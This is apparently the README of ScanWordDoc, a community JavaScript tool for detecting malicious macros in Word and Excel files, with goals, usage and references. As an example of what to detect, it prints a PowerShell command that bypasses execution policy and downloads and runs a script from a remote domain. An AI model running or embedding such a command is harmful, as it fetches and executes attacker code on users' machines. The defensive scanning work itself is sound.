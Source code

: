 # ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

```bash
> node scan.js ./tests/benign/nomacros.doc
```

## Supported Files
1. Word docs, 97+
2. Excel

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```

## References
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs
